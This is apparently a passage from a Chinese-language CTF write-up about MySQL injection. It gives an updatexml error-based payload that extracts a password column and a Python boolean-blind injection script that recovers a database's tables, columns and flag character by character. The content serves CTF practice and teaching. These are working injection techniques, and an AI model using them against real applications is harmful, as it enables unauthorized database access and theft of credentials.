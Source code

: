 

### 知识点：extractvalue和updatexml`只显示32位字符`

使用`right()`显示右边，查看右数20位，对应拼接即可

```mysql
?username=1'or(updatexml(1,concat(0x7e,(select(group_concat(right(password,20)))from(`H4rDsq1`))),1))%23
```

![](https://i.loli.net/2021/11/01/QbZmfCXhKPOuSwq.png)





## 二、布尔盲注脚本（几道题）

```python
import requests
import time
url = 'http://a022b5ef-56ff-4edc-9d4b-8b60dcd0f7ee.node4.buuoj.cn:81/index.php'
p1 = "if(ascii(substr((select(database())),{},1))>{},1,0)"
p2 = "1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema='ctf')),{},1))>{})^1"
p3 = "1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),{},1))>{})^1"
p4 = "1^(ascii(substr((select(flag)from(flag)),{},1))>{})^1"
flag =""
for i in range(1,10000):
    l = 32
    r = 128
    mid = (l+r)//2
    while(l<r):
        payload = p4.format(i,mid)
        data = {
            "id":payload
        }
        res = requests.post(url,data=data).text
        if "Hello" in res:
            l = mid + 1
        else:
            r = mid
        mid = (l+r) // 2
    if(mid==32 or mid ==132):
        break
    flag +=chr(mid)
    print(flag)
    time.sleep(0.1)
print(flag)
```

用`if(xxx,0,1)` 或者 `1^(xxx)^1`都行
